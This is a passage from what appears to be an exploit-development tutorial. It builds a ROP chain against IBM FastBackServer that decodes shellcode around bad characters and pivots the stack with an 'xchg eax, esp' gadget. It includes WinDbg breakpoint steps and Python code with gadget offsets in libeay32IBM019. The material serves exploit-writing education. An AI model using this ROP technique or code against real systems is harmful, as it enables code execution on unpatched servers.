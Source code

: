 

Listing 87 shows that the first time the breakpoint is hit, EAX is aligned with the beginning of the shellcode (minus one byte, to account for the offset in the write gadget).

The second time the breakpoint is triggered, EAX becomes aligned with the first replacement character. At this point, we can step through the decoding routine and restore the bad character in the shellcode.
	p
	p
	p
	db eax L10
	


In Listing 88, we stepped through the decoding routine for the first bad character and found that the ROP chain restored it correctly.

Let's allow execution to continue, triggering the breakpoint an additional two times. We can then check the contents of the shellcode after executing the decoding routine against two more bad characters:
	db 149de91e L10

These results confirm that our process is working, since our exploit has dynamically detected the three bad characters, replaced them, and generated the required ROP decoder.

We're now ready to replace the truncated shellcode with our complete shellcode. Our exploit will dynamically encode and decode the shellcode to avoid bad characters and decode the payload in the non-writable code cave.

Our exploit can decode the shellcode, but we are still missing a final step. We need to restore EAX to the start of the ROP skeleton before we execute the XCHG ROP gadget.

If we restart FastBackServer, attach WinDbg, and set a breakpoint on the gadget that aligns EAX with the shellcode (libeay32IBM019+0x4a7b6), we can find the distance from the ROP skeleton to EAX, as shown in Listing 90.
	dd eax-62f L7

Through trial and error, we discover that the difference from EAX to the start of the ROP skeleton is 0x62f.

We can add this value to the index of the last bad character to dynamically determine the distance from EAX when the ROP chain completes the decoding process.

The updated ROP chain segment in Listing 91 calculates the required offset.
# Align ESP with ROP Skeleton
skeletonOffset = (-(pos[len(pos)-1] + 0x62f)) & 0xffffffff
rop += pack("<L", (dllBase + 0x117c))  # pop ecx ; ret
rop += pack("<L", (skeletonOffset))    # dynamic offset
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret
The offset stored in the skeletonOffset variable is found from the last entry of the array of indexes associated with the bad characters.

To verify that the dynamically-found offset is correct, let's restart FastBackServer, attach WinDbg, and set a breakpoint on the "XCHG EAX, ESP" ROP gadget. Then, we'll run the updated exploit.
	bp libeay32IBM019+0x5b415
	g
	dd eax L7
	